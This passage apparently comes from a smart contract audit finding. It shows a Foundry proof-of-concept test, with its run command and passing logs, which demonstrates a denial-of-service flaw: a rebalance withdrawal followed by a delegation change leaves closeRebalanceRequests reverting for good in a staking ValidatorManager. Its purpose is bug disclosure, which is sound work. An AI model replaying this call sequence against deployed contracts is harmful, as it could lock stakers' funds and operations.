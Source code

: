 ```solidity
        validatorManager.rebalanceWithdrawal(address(stakingManager), validators, amounts);

        validatorManager.setDelegation(address(stakingManager), validator2);

        // Step 2. closeRebalanceRequests can never be executed successfully
        vm.expectRevert("Insufficient balance");
        validatorManager.closeRebalanceRequests(address(stakingManager), validators);
        vm.stopPrank();

        assertTrue(validatorManager.hasPendingRebalance(validator1));
    }
```

And run it using the following command:

```
forge test --mt test_RebalanceWithdrawal_DoS  -v
```

The logs show that:

```
Ran 1 test for test/ValidatorManager.t.sol:ValidatorManagerTest
[PASS] test_RebalanceWithdrawal_DoS() (gas: 867992)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.49ms (234.29µs CPU time)

Ran 1 test suite in 110.08ms (2.49ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```